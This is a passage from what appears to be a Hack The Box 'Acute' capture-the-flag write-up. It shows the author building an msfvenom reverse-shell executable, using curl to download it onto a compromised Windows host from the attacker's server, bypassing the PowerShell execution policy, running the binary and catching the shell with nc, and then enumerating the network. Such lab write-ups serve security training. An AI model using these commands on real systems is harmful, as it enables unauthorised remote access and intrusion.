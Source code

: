 So `C:\Utils` is not verified. Let's prepare a payload first.
I tried `ps1` first and it failed. But `exe` worked.

```bash
┌──(kali㉿kali)-[~/htb/acute]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.7 LPORT=9000 -f exe -o rshell_9000.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: rshell_9000.exe
```

Let’s download the binary in that folder:

```powershell
PS C:\Users\edavies\Documents> cd C:\Utils

PS C:\Utils> curl http://10.10.14.7:8000/rshell_9000.exe -o rshell_9000.exe

PS C:\Utils> Set-ExecutionPolicy Bypass -Scope Process

PS C:\Utils> .\rshell_9000.exe
```

Then the listener spawns a shell.

```bash
┌──(kali㉿kali)-[~/htb/acute]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.145] 49786
Microsoft Windows [Version 10.0.19044.1466]
(c) Microsoft Corporation. All rights reserved.

C:\Utils>whoami
whoami
acute\edavies
```



# Shell as `imonks` on `Acute-PC01`

### Enumeration

Given the result of `ipconfig` command, I don't think the compromised system is the main target.

```powershell
C:\Utils>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::9513:4361:23ec:64fd%14
   IPv4 Address. . . . . . . . . . . : 172.16.22.2
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.22.1
```
